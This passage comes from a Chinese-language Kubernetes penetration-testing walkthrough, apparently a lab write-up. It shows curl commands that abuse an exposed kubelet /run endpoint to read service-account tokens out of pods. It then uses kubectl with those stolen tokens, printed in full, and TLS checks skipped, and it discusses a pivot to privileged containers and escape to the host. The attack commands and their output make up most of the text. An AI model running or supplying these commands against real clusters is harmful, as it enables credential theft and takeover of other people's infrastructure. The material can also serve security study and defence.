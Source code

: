 ```plain
curl -XPOST -k "https://192.168.108.102:10250/run/default/nginx-6867cdf567-9sv8d/nginx" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
```

[![](assets/1701678402-0a58b5da0a6bab4a006ba62c41580631.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190920-e8dbaa3c-8f70-1.png)  
如果挂载到集群内的 token 具有创建 pod 的权限，可以通过 token 访问集群的 api 创建特权容器，然后通过特权容器逃逸到宿主机，从而拥有集群节点的权限，这里类似于我们的横向渗透

```plain
kubectl --insecure-skip-tls-verify=true --server="https://192.168.108.100:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6IlQzZUZucGJJbmtHUVJTTVNWZE4yRlFaYlMwQU5Vb3RyZzAzNUZhbUZGNFEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImRlZmF1bHQtdG9rZW4tOXJ0Z3YiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC5uYW1lIjoiZGVmYXVsdCIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50LnVpZCI6IjE1NzdiNWYxLTMxMjQtNDg2NS1iZDBkLWY4OTc4N2U1MzM3ZSIsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.xRU5DY0YZx9QAVw9qnbb6RMWb_9oYv0W5OjVHasmFtCpIPI5Hg2NNf6pRXtsDZc4XomqXRpPdF5YTnnxwa7pOL6Sy0RzBQYDoirMsc1qoW6wsI9YlO8hEf73aTXIDP9QwnwNn2UWktkYkXyiPiDPHd5G64WXqyKg0apW-HcgLYzrmwII2fy6OJYOJJQFwdebrWlgshPhAoT-GTs3KRHRGfJsDHJ6zC0mIXwxthDz1HSI4pxX-v4wmq3R0UYx5Nr-yKhHMgzKjZqoX_xzZXCcRbvXm3yL5-UqKd_zTMX4r9SD93VS-eNKwZC9fnhN8Ey9jXY3NNazsHG9PSJsAwtfTA" get pods
```

[![](assets/1701678402-2105205b7ef2576ebad45d3b7834a382.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130190920-e8fe07ee-8f70-1.png)  
报错是

```plain
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:default:default" cannot list resource "pods" in API group "" in the namespace "default"
```

我们上述讲到了，需要获取的 token 有创建权限，这里的报错是因为我们的 token 没有创建权限，尝试换一个

```plain
curl -XPOST -k "https://192.168.108.102:10250/run/kube-system/kube-proxy-l2psz/kube-proxy" -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"
#得到的 token
eyJhbGciOiJSUzI1NiIsImtpZCI6IlQzZUZucGJJbmtHUVJTTVNWZE4yRlFaYlMwQU5Vb3RyZzAzNUZhbUZGNFEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJrdWJlLXByb3h5LXRva2VuLTJidzhsIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6Imt1YmUtcHJveHkiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiJkNGExYWViOS04ZWUxLTQ0NzktODlhZi01OGFlYTEyZWM1NjQiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06a3ViZS1wcm94eSJ9.p5hlTUIYMIfjVNey6g8e4lYAnlB9Jae2d8A4hxLenGGUuyjkHbu8W7z9E7HZ9IEvzVjd8eQFv8_NGTGjTNL8qbRX6nszqg0DS5ABp5ZHHWiYSTD1222etxmi-BN4Qu296PzGG_Udr64cJkRsztJ1PkDrsrGndwWwsds5qzDGlZEgvyrt9Farlo3NyBTjNCU7hdDthBmjFq0Gqufkw-BNb88s0JgkmEx-fs7p2wPwk2nEKstC8f2ARRZx75PCMS-pLEUGHpphLKDAP1O08pwO3JzhZrc3LJpPB-0XPayNQiPYgJjshttV7ICV3FiTGoiP2H_UeyLtytzfXgIk9eX5jA
#
kubectl --insecure-skip-tls-verify=true --server="https://192.168.108.100:6443" --token="eyJhbGciOiJSUzI1NiIsImtpZCI6IlQzZUZucGJJbmtHUVJTTVNWZE4yRlFaYlMwQU5Vb3RyZzAzNUZhbUZGNFEifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJrdWJlLXByb3h5LXRva2VuLTJidzhsIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6Imt1YmUtcHJveHkiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiJkNGExYWViOS04ZWUxLTQ0NzktODlhZi01OGFlYTEyZWM1NjQiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06a3ViZS1wcm94eSJ9.p5hlTUIYMIfjVNey6g8e4lYAnlB9Jae2d8A4hxLenGGUuyjkHbu8W7z9E7HZ9IEvzVjd8eQFv8_NGTGjTNL8qbRX6nszqg0DS5ABp5ZHHWiYSTD1222etxmi-BN4Qu296PzGG_Udr64cJkRsztJ1PkDrsrGndwWwsds5qzDGlZEgvyrt9Farlo3NyBTjNCU7hdDthBmjFq0Gqufkw-BNb88s0JgkmEx-fs7p2wPwk2nEKstC8f2ARRZx75PCMS-pLEUGHpphLKDAP1O08pwO3JzhZrc3LJpPB-0XPayNQiPYgJjshttV7ICV3FiTGoiP2H_UeyLtytzfXgIk9eX5jA" get pods
```
